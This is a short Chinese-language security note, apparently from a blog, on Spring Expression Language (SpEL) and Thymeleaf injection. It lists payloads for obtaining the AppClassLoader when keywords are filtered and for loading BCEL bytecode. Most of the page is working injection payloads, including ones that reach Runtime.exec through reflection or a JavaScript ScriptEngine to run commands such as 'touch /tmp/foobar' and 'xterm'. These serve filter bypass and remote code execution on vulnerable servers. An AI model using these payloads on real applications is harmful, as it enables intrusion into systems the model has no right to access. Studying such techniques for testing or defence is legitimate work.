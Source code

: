 ![image.png](assets/1698895942-b11d4a5db26c7b4818dd2ec6c509e358.png)

## 通过各种方法获取 AppClassloader

我的纯度在你之上，假如 ban 掉了一些关键字，我们如何获取 classloader 成为了问题  
有如下几种方法。

```php
T(org.springframework.expression.Expression).getClass().getClassLoader()
#thymeleaf 情况下

T(org.thymeleaf.context.AbstractEngineContext).getClass().getClassLoader()
#web 服务下通过内置对象

{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"touch/tmp/foobar\")}

username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('xterm')")]=asdf
```

只要能获取到都是可以的。

## Bcel 字节码

这东西其实都不陌生。

```php
T(com.sun.org.apache.bcel.internal.util.JavaWrapper)._main({"BCEL"})}
```
